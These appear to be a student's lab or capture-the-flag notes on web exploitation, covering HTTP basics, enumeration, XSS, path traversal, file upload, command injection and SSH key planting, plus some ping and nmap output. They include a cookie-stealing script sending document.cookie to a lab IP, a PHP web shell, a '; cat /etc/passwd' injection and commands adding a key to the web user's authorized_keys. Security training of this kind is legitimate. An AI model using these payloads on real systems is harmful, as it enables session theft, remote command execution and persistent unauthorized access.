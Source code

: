 ## HTTP Methods
* GET
* POST
* HEAD
* PUT
## HTTP Response Codes
* 10X - Informational
* 2XX - Success
* 30X = Redirection
* 4XX - Client Error
* 5XX - Server Error
## HTTP Fields
* User-Agent
* Referer
* Cookie
* Date
* Server
* Set-Cookie
## JavaScript Interaction
```
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>
```
* JS Demo - http://10.50.XX.XX/java/Javademo.html
## Enumeration
* ROBOTS.TXT
  - If you find this file, go to it and enumerate (There might be something important here)
* Legitimate surfing
* Tools:
  - NSE scripts
  - Nikto
  - Burp suite (outside class)
## Cross-Site scripting (XSS) Overview
* Insertion of arbitrary code into a webpage, that executes in the browser of visitors
* Unsanitized GET, POST, and POST methods allow JS to be placed on websites
* Often found in forums that allow HTML
## Reflected XXS
* Most common form of XSS
* Transient, occurs in error messages or search results
* Delivered through intermediate media, such as a link in an emial
* Characters that are normally illegal in URLs can be Base64 encoded
## Stored XSS
* Resides on vulnerable site
* Only requires user to visit page
```
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
## <script>document.location="http://10.50.39.224:8000/"+document.cookie;</script>

## Useful Javascript components
* Proof of concept (simple alert)
  - `<script>alert('XSS');</script>`
* Capturing Cookies
  - `document.cookie`
* Capturing Keystrokes
  - `bind keydown and keyup`
* Capturing Sensitive Data
  - `document.body.innerHTML`
## Server-Side Injection
* Ability to read/execute outside web server's directory
* Uses `../../` (relative Paths) in manipulating a server-side file path
* `www-data` is the user that web servers on ubuntu or Apache, Nginx
## Malicious File Upload
* Server Doesnt Validate extension or size
* Allows or code execution (shell)
* Once uploaded
  - Find your file
  - Call your file
#### Establishes a shell
```
<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```
## Command Injection
* User input not validated
* Might contain the following in it’s code:
```
system("ping -c 1 ".$_GET["ip"]);
```
* Run the following to chain/stack our arbitrary command
```
; cat /etc/passwd
```
## Key Regen (SSH)
```
ssh-keygen -t rsa -b 4096
cat  /.ssh/id_rsa.pub
echo "your key from the cat" > /var/www/.ssh/authorized_keys
```
# Demo
```
python3 -m http.server # This makes a webserver
<script>document.location="http://10.50.30.231:8000/"+document.cookie;</script> # This script steals cookies from users and sends it to our webserver
```
# CTF
```
64 bytes from 10.100.28.33: icmp_seq=1 ttl=64 time=0.191 ms
64 bytes from 10.100.28.34: icmp_seq=1 ttl=63 time=1.31 ms
64 bytes from 10.100.28.35: icmp_seq=1 ttl=63 time=2.58 ms
64 bytes from 10.100.28.40: icmp_seq=1 ttl=63 time=0.593 ms
64 bytes from 10.100.28.48: icmp_seq=1 ttl=63 time=0.608 ms

Nmap scan report for 10.100.28.48
Host is up (0.00049s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524

```

















